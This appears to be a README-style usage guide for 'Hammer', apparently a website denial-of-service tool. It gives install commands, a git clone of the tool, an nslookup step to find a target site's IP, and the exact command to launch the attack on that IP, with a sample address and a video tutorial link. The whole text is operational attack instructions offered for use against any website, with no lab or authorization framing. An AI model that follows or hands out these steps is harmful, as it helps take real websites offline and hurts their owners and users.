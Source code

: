 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/Pavithran-R/Hammer/

Hammer need <b>Name Server</b> of that website which you want to attack...<br>
To get the Name Server of Website type:<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

Video Tutorial:
How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)
